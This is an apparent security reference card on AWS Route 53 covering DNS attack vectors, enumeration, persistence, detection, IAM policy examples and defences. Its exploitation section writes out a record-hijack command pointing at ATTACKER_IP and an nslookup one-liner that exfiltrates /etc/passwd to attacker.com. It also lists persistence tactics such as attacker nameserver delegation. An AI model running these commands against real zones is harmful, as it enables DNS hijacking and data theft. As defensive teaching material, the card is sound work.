

#  AWS Route 53 Security



> **Category**: DNS

Route 53 is AWS's DNS service handling domain registration, DNS routing, and health checks. Attackers exploit DNS misconfigurations for subdomain takeover, traffic hijacking, and reconnaissance.

## Quick Stats

| Takeover Risk | Record Types | DNS Propagation | Uptime SLA |
| --- | --- | --- | --- |
| **CRITICAL** | **20+** | **Global** | **100%** |

## Service Overview

### DNS & Domain Management

Route 53 manages public and private hosted zones, domain registration, and DNS health checks. Public zones resolve globally while private zones serve VPC-internal resolution. Alias records provide AWS-native mapping to CloudFront, ELB, S3, and other services.

> Attack note: DNS enumeration of hosted zones reveals the entire infrastructure topology including internal services

### DNS Exfiltration & Tunneling

DNS queries bypass most firewalls and security controls. Attackers use DNS TXT queries for data exfiltration, encode stolen data in subdomain labels, and tunnel C2 traffic through DNS resolution. Route 53 Resolver logs can detect this but are rarely enabled.

> Attack note: DNS tunneling can exfiltrate data at ~18KB/s through TXT records while evading most network security controls

## Security Risk Assessment

`█████████░` **9.0/10** (CRITICAL)

DNS control enables complete traffic interception. Subdomain takeover exposes organizations to phishing and credential theft. DNS enumeration reveals infrastructure and attack surface.

## ⚔️ Attack Vectors

### DNS Attacks

- Subdomain takeover (dangling CNAME)
- DNS record hijacking
- Zone transfer exposure
- Private hosted zone leakage
- Health check manipulation

### Traffic Interception

- NS delegation hijacking
- MX record spoofing for email intercept
- A/AAAA record poisoning
- Traffic policy abuse for redirection
- DNS tunneling for C2 and exfiltration

## ⚠️ Misconfigurations

### Record Issues

- Dangling DNS records to defunct services
- Public hosted zone for internal services
- Wildcard records vulnerability
- Stale records after decommissioning
- TXT records containing secrets/tokens

### Security Gaps

- Overly permissive IAM for route53:*
- Missing DNSSEC validation
- No query logging enabled
- Resolver rules exposing internal DNS
- Cross-account hosted zone associations

## 🔍 Enumeration

**List Hosted Zones**
```bash
aws route53 list-hosted-zones
```

**List Records**
```bash
aws route53 list-resource-record-sets \\
  --hosted-zone-id Z1234567890ABC
```

**List Health Checks**
```bash
aws route53 list-health-checks
```

**List Domains**
```bash
aws route53domains list-domains
```

**External Enumeration**
```bash
dig ANY example.com @8.8.8.8
```

## 📈 Privilege Escalation

### DNS-Based Escalation

- Hijack DNS to redirect auth endpoints
- MX takeover for password reset emails
- Redirect internal services to attacker
- Modify health checks to fail over to attacker
- Associate attacker VPC with private zone

### Subdomain Takeover Targets

- S3 bucket (NoSuchBucket error)
- CloudFront distribution (deleted)
- Elastic Beanstalk CNAME (terminated)
- GitHub Pages (unclaimed)
- Heroku/Azure/GCP services (deprovisioned)

> **Key insight:** Subdomain takeover on auth.company.com enables cookie theft for the entire company.com domain scope.

## 🔗 Persistence

### DNS Persistence

- Add A record pointing to attacker C2
- Create NS delegation to attacker nameserver
- Modify MX for ongoing email interception
- Add TXT records for domain verification abuse
- Create hidden subdomain for phishing

### Infrastructure Abuse

- Register similar domains for typosquatting
- Associate attacker VPC with private zone
- Create health check triggering attacker endpoint
- Add CNAME for persistent subdomain takeover
- Modify traffic policy for selective redirect

> **Tool reference:** Use subjack, can-i-take-over-xyz, and nuclei takeover templates for automated subdomain takeover detection. dnsrecon and amass for DNS enumeration.

## 🛡️ Detection

### CloudTrail Events

- ChangeResourceRecordSets
- DeleteHostedZone
- CreateHostedZone
- AssociateVPCWithHostedZone
- UpdateHealthCheck

### Indicators of Compromise

- DNS record changes from unknown principals
- New hosted zone associations
- Health check modifications
- Unusual query patterns in Resolver logs
- Domain transfer attempts

## Exploitation Commands

**Hijack DNS Record**
```bash
aws route53 change-resource-record-sets \\
  --hosted-zone-id Z1234567890ABC \\
  --change-batch '{"Changes":[{"Action":"UPSERT",
    "ResourceRecordSet":{"Name":"app.example.com",
    "Type":"A","TTL":60,
    "ResourceRecords":[{"Value":"ATTACKER_IP"}]}}]}'
```

**Check for Zone Transfer**
```bash
dig axfr example.com @ns1.example.com
```

**Subdomain Enumeration**
```bash
subfinder -d example.com -silent | dnsx -silent
```

**Find Dangling CNAMEs**
```bash
aws route53 list-resource-record-sets \\
  --hosted-zone-id Z123 \\
  --query "ResourceRecordSets[?Type=='CNAME']"
```

**Associate VPC with Private Zone**
```bash
aws route53 associate-vpc-with-hosted-zone \\
  --hosted-zone-id Z123 \\
  --vpc VPCRegion=us-east-1,VPCId=vpc-attacker
```

**DNS Exfiltration Test**
```bash
# Encode data in subdomain labels
nslookup $(cat /etc/passwd | base64 | tr -d '\
' | \\
  fold -w 60 | head -1).attacker.com
```

## Policy Examples

### ❌ Dangerous - Full DNS Access

```json
{
  "Version": "2012-10-17",
  "Statement": [{
    "Effect": "Allow",
    "Action": "route53:*",
    "Resource": "*"
  }]
}
```

*Full Route 53 access enables DNS hijacking across all zones*

### ✅ Secure - Read-Only Zone Access

```json
{
  "Version": "2012-10-17",
  "Statement": [{
    "Effect": "Allow",
    "Action": [
      "route53:GetHostedZone",
      "route53:ListResourceRecordSets"
    ],
    "Resource": "arn:aws:route53:::hostedzone/Z123456"
  }]
}
```

*Limited to specific hosted zone with read-only access*

### ❌ Dangerous - Cross-Account Zone Association

```json
{
  "Version": "2012-10-17",
  "Statement": [{
    "Effect": "Allow",
    "Action": "route53:AssociateVPCWithHostedZone",
    "Resource": "*"
  }]
}
```

*Allows associating any VPC with any private hosted zone*

### ✅ Secure - Deny Record Modification

```json
{
  "Version": "2012-10-17",
  "Statement": [{
    "Effect": "Deny",
    "Action": "route53:ChangeResourceRecordSets",
    "Resource": "arn:aws:route53:::hostedzone/Z123456",
    "Condition": {
      "StringNotEquals": {
        "aws:PrincipalTag/team": "dns-admins"
      }
    }
  }]
}
```

*Only DNS admin team can modify records in production zone*

## Defense Recommendations

### 🔐 Enable DNSSEC

Sign zones with DNSSEC to prevent DNS spoofing and cache poisoning attacks.

```bash
aws route53 enable-hosted-zone-dnssec \\
  --hosted-zone-id Z123456
```

### 🔍 Audit Dangling Records

Regularly scan for CNAME records pointing to deleted resources to prevent subdomain takeover.

```bash
subjack -w subdomains.txt -t 100 -timeout 30 -a
```

### 📋 Enable Query Logging

Enable DNS query logging to CloudWatch for security monitoring and anomaly detection.

```bash
aws route53resolver create-resolver-query-log-config \\
  --name security-dns-log \\
  --destination-arn <cw-log-group-arn>
```

### 🔒 Restrict Record Changes

Use IAM conditions to limit DNS record modifications to authorized teams only.

```bash
"Condition": {"StringEquals": {
  "aws:PrincipalTag/team": "dns-admins"
}}
```

### 🏠 Private Hosted Zones

Use private hosted zones for internal services instead of exposing them in public DNS.

```bash
aws route53 create-hosted-zone \\
  --name internal.corp.com \\
  --vpc VPCRegion=us-east-1,VPCId=vpc-xxx \\
  --caller-reference $(date +%s)
```

### ❤️ Monitor Health Checks

Alert on health check changes that could indicate traffic redirection attacks.

```bash
aws cloudwatch put-metric-alarm \\
  --alarm-name route53-health-change \\
  --metric-name HealthCheckStatus \\
  --namespace AWS/Route53 \\
  --dimensions Name=HealthCheckId,Value=HC_ID
```

---

*AWS Route 53 Security Card*

*Always obtain proper authorization before testing*
